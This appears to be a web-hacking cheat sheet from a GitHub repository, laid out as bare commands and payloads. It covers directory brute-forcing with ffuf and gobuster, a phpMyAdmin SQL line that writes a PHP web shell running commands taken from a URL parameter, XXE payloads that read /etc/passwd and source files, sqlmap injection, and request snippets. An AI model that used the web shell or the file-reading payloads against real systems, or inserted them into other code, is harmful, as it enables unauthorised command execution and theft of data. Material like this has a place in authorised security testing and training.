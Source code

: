 # Web

- [BruteForce Url](#bruteforce-url)
- [PhpMyAdmin](#phpmyadmin)
- [XML external entity (XXE)](#xml-external-entity-xxe)
- [Mysql](#mysql)

## BruteForce
### ffuf
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://url/FUZZ'
```
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt:FUZZ -u http://FUZZ.url/ -H 'Host: FUZZ.host'
```

### Gobuster
```
gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 25 -x html,php
```

### Dibuster
```
dirbuster
```

### Zap
```
owasp-zap
```

## PhpMyAdmin
### Quick Shellcode
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/dir/dir/file.php"
```

## XML external entity (XXE)
### Read File
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<foo>Hello &file;</foo>
```
### Get Link
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "http://example.com/path">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=index.php">
]>
<foo>Hello &file;</foo>
```

## MySql
### Connect to mysql
```
mysql -h localhost -u myname -p
```
### Show Info
```
SHOW DATABASES;
use db_name
SHOW TABLES;
select * from table_name
```
### Open SQLite3
```
sqlite3 database.sqlite3
```
or open in vs code

### SQL Injection
```
sqlmap -u url --batch
```

## Request
### Curl
```
curl 'http://example.com/login' -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=login&password=pass'
```

### Python (requests)
```python
import requests

s = requests.session()
s.proxies = {
  "http": "localhost:8080",
  "https": "localhost:8080",
}

r = s.get('http://example.com')
print(r.text)
r = s.post('http://example.com/submit',
    headers={
        'Content-type': 'raw',
    },
    data={'user': 'guest'},
    # auth=('username', 'password')
)
print(r.status_code, r.url)
```
